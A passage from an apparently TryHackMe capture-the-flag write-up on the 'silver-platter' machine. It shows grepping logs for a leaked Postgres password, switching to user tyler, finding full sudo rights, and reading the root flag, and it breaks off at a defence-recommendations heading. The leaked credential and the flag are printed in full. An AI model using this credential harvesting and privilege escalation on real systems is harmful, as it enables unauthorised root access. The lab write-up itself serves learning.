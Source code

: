 ```bash
cd /var/log
grep -iR tyler
```

📌 **Result**:

```text
POSTGRES_PASSWORD=_Zd_zx7N823/
```

A password! Hidden away in the logs.

---

## 👥 Switching to Tyler

Armed with the password, I switched users:

```bash
su tyler
```

Login successful! Now to check for sudo privileges:

```bash
sudo -l
```

🎉 **Bingo**:

```text
User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

---

## 🏁 Root Access

With full sudo access, I went straight for the root flag:

```bash
sudo cat /root/root.txt
```

📜 **Flag**:

```text
THM{098f6bcd4621d373cade4e832627b4f6}
```

---

## 🧠 Lessons Learned & Defense Recommendations

This box was full of real-world applicable misconfigurations and security issues. Here's a breakdown of what we exploited and how to defend against it:

---